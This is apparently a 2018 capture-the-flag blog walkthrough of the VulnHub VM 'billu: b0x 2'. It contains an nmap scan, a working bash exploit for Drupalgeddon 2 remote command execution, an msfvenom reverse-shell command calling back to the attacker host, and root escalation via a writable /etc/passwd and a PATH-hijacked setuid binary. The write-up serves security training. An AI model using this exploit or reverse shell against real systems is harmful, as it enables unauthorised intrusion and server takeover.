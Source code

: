 ```yaml
---
layout: post
title: "billu: b0x 2 Walkthrough"
subtitle: "Man, I Need a New Hobby"
date: 2018-09-22 18:25:01 +0000
last_modified_at: 2018-09-22 18:37:16 +0000
category: Walkthrough
tags: [VulnHub, billu]
comments: true
image:
  feature: billu-b0x-2-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/soap-bubble-colorful-ball-824558/
---
```


This post documents the complete walkthrough of billu: b0x 2, a boot2root [VM][1] created by [Manish Kishan Tanwar][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Try this if you want an OSCP refresher that's not too difficult.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e6:3e:0d:ca:5c:3e:57:f8:1d:e6:e6:c5:3b:b3:67:b5 (DSA)
|   2048 ee:ef:3e:03:3a:24:f8:9f:35:4f:3a:9a:6f:64:a5:f5 (RSA)
|   256 af:60:d8:cb:90:08:63:4b:d3:7b:04:d3:7c:db:cf:bf (ECDSA)
|_  256 c0:56:96:d2:62:52:ea:9f:7f:d8:2a:7a:6b:1b:bd:56 (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
| /user/password/ /user/login/ /user/logout/ /index.php/admin/
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Home | --==[[ Billu b0x 2 - with love from indishell Lab ]]==--
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42940/udp  status
|_  100024  1          45103/tcp  status
8080/tcp  open  http    syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
45103/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds a couple of open ports. Nothing unusual. Let's take a look at the web-related ones. The metadata in the HTML source tells me I'm looking at a Drupal 8 installation.

![9cbbd925.png](/assets/images/posts/billu-b0x-2-walkthrough/9cbbd925.png)

## Drupalgeddon

Suffice to say, the first thought that comes to my mind is Drupalgeddon. Since this is Drupal 8, I'll give EDB-ID [44448](https://www.exploit-db.com/exploits/44448/) a shot. It's a proof-of-concept code written in Python that tests for remote command execution. It writes a file and then checks for the file's existence. In any case, it's easy to rewrite it in `bash`. i.e. wrap the script around `curl` and re-purpose it to take in an argument—any shell command.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=192.168.30.129
URL="http://$RHOST/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
CMD=$1

STATUS=$(curl -s \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode "form_id=user_register_form" \
              --data-urlencode "_drupal_ajax=1" \
              --data-urlencode "mail[#post_render][]=exec" \
              --data-urlencode "mail[#type]=markup" \
              --data-urlencode "mail[#markup]=$CMD" \
              $URL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Exploit Successful"
else
  echo "[!] Exploit Failed"
fi
```

Time to run my exploit script.

_On my exploit script terminal_

![1bc5fcfa.png](/assets/images/posts/billu-b0x-2-walkthrough/1bc5fcfa.png)

_On my `nc` listener_

![95bbd761.png](/assets/images/posts/billu-b0x-2-walkthrough/95bbd761.png)

You can see the remote command executed successfully.

Next, I'll make use of `wget` to transfer a reverse shell (generated by `msfvenom`), make it executable with `chmod`, and then execute it.

You can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

_On my exploit script terminal_

![cd2272c1.png](/assets/images/posts/billu-b0x-2-walkthrough/cd2272c1.png)

_On my SimpleHTTPServer terminal_

![743c9c3d.png](/assets/images/posts/billu-b0x-2-walkthrough/743c9c3d.png)

_On my `nc` listener_

![0e917b2f.png](/assets/images/posts/billu-b0x-2-walkthrough/0e917b2f.png)

I got shell.

## Privilege Escalation

Long story short. Once you have a low-privilege shell, there are two ways to gain `root` privileges.

***Method 1: world-writable `/etc/passwd`***

How do you know `/etc/passwd` is world-writable? Simple.

![07134282.png](/assets/images/posts/billu-b0x-2-walkthrough/07134282.png)

So what if `/etc/passwd` is world-writable? What can you do with it? Enough to be dangerous.

![2a7227b9.png](/assets/images/posts/billu-b0x-2-walkthrough/2a7227b9.png)

`su` to `toor`. Password is `toor`.

![1a61b268.png](/assets/images/posts/billu-b0x-2-walkthrough/1a61b268.png)

***Method 2: `/opt/s` is `setuid` to `root`***

How do you know `/opt/s` is `setuid` to `root`? Simple.

![6ce80208.png](/assets/images/posts/billu-b0x-2-walkthrough/6ce80208.png)

Check out the strings in the executable. This is classic—hijacking the default executable search path.

![d7faf243.png](/assets/images/posts/billu-b0x-2-walkthrough/d7faf243.png)

`scp` is not specified in absolute path. We can easily trick the shell to search for a `PATH` we specified first. Heck, we don't even have to compile any code. Any shell script that start with `#!` will suffice, as long as it's called `scp`.

![5d60d36e.png](/assets/images/posts/billu-b0x-2-walkthrough/5d60d36e.png)

:dancer:

## Afterthought

A good way to kill time.

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
